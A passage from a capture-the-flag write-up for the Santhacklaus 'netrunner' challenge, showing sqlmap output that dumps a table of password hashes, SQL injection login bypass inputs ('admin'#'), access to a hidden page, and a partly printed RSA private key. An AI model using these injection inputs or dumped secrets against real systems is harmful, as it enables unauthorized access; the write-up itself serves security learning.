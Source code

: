 ```
| id | user          | password                                                         |
+----+---------------+------------------------------------------------------------------+
| 1  | admin         | e6c2d84527c9f0af9b6d6fe33fd987b6ef47360e335e71220201e72c4ac5ccf9 |
| 2  | puppet-master | 31e2d9e7ee8279341dee46986670996145a699937616fd03fe362426b5b47c25 |
+----+---------------+------------------------------------------------------------------+

[15:15:35] [INFO] table '`ctf-zetatech-inc`.access' dumped to CSV file '/home/th1b4ud/.sqlmap/output/51.75.202.113/dump/ctf-zetatech-inc/access.csv'
[15:15:35] [INFO] fetched data logged to text files under '/home/th1b4ud/.sqlmap/output/51.75.202.113'

[*] shutting down at 15:15:35
```

Ho finally ! We dump the database ! We've got two users : `admin` and `puppet-master`. Let's try a very simple injection with these informations.

```
admin'#
puppet-master'#
```

With admin

![](/img/santhacklaus/netrunner8.png "")

Sad :(

![](/img/santhacklaus/netrunner9.png "")

![](https://media.giphy.com/media/3o6UB3VhArvomJHtdK/giphy.gif)

OMG IT WORKS !



## 2nd step - Bypass protection

![](/img/santhacklaus/netrunner10.png "")

We've got an access to the application. We now have an access to this page : http://santhacklaus.xyz:2077/e91ac60004c77904ad889a5762a68b06e53b7c21.html

There is a private key.

```
-----BEGIN RSA PRIVATE KEY-----
MIIJJwIBAAKCAgEA5nJEI+VHIE8eUE0Upf8eTGorOC5Cd0AVQGdgJLZPQNdcrgvu
j9Pq1Jf90iAI7tt/2CybZlfegYJW3gN08n4kVWXd0ihO9Xpn4IxOA0dGApZ9Tnux
5G4LF9kQDEMWgQP8v0M1z5v4vnqeyvrPMNdkBKrJHm5GqOT4sSinbU509cPsyggf
utfJgbCtsuwPR56GRdc/nhH4NZGjTOgqy1dG8VSATcyf/j5WohG5G4aTCYUeyEy5
3YYKesbgIdHW+0TUCwTNXRGrlHSEfJEjbvQaQDtCi/v6IhGsA6xr/TkxrNvZBAfn
Ol+IAL7w5vmjXFIDG0HQOca5QUyUgO2S9Fr0NTE/dNf9pQt+eH51GY068MZ1rw5q
kxixhTMUsMRFMm5lF4hskxnosyIY2sW2MX9VuxQ9tweTA3vyNb7OxXNB+Hsa2qBK
+G8cT/tooQN8qYXXdyNN6LzqqDIadL1NRkg2uYu0h5ZZu+mf4LhRYn8Ocau3+w2S
nOKjqMjiiAi1G4V/3G2bHjo49I7dPjaGCBasAZIv4N+9qeLkd9u6lNVnHFxJbU52
+5Rw+IWEp80IpxZRxRHSJQhZdAHTuyu8SLBX4mRD3SRFG4rsZqSNDwGwPu+VfL6k
4Ih1vwZs9WyUrl9q8g2zZYthMyqND3SvHtL6tF3RXkzjaI1uXZF29lS8VpMCAwEA
AQKCAgAbHv2X/+bkDYuyxa+VbbYCJkiZ3w/hewBFSSVOjMo9BluY/DyCXt13UcAE
l9KVUe304iMT42mDcnSIwn1kAKaECm4VyrqoN1S8X6bayeuaaF2s++/Ow4i4sMor
t0WRv4didyWBHoki2cmQd/4kcGUMC5GJ7E6SmAgQyYkS2zX2qq1Whag+VCEaC1IW
CaQuuKBy3cdV8iV1IIPIjFZlAguOYXSMM3Xs9Sc7Abz4WVk6uJkL18PUJ29aTceZ
E1oqzknqVhFZT7gSy7e/9VDnQQFJ5++IDAq/Mbc942/+KFoJTwJ2b/utqgqWk+JE
PMMWHWzSK2e3NQUeg0XC+rLd4Up2Mvc3RWzcu21UiSY2VvEu0w+WMQiQG/TYapBS
dO6iJNiIB79wFj/gNIA/NHBcNM37N27FLFt4/WOsANEXG8f2lKjpZXRhXyOrWk8T
SwYf0AuSUbLf215Ln49ROXrJ7tMUUKDAZjeDwG7kte20KS6FOt604n8EVcEFNU63
n05AIBiynMqjfLWJpgSmhw4jTpZOd3VRsV22PvEqxWNxtMZaVIhZvYBIGasRl7Q5
```